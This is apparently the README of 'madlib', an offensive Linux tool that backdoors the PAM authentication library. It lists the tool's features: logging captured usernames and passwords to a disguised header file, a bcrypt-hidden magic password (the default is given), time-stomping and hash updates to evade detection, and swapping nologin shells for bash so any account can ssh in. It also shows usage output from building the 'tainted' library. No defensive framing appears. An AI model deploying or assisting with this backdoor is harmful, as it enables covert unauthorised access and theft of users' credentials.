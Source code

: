 # madlib
PAM Backdoor, 
* Logs username/passwords to file
* Obfuscates backdoor password with bcrypt (helps make reverse engineering more difficult and string dumps less effective)
* Automatically updates the MD5 hashes and time stomps the replaced files
* Requires Python3
* Replaces /bin/false, and /bin/nologin with /bin/bash (effectively making any user able to ssh in)
* Username/passwords by default are logged to /usr/include/type.h
* The default magic password is secretpassxd


## Usage

Manually Specifying PAM Version:

```
root@homebase /h/r/madlib# ./pam.py "1.3.0"
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:15:55] [+] PAM TAR Download Completed
[00:15:56] [+] Finishing Extracting
[00:15:56] [+] Added Backdoor
[00:16:16] [+] Finished Compiling Tainted Lib
[00:16:16] [+] Finished Successfully
```

Automatic Version Detection:

```
root@homebase /h/r/madlib# ./pam.py
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:17:55] [!] Detected PAM Version: '1.3.0'
[00:17:55] [+] PAM TAR Download Completed
[00:17:56] [+] Finishing Extracting
[00:17:56] [+] Added Backdoor
[00:18:16] [+] Finished Compiling Tainted Lib
[00:18:16] [+] Finished Successfully
```
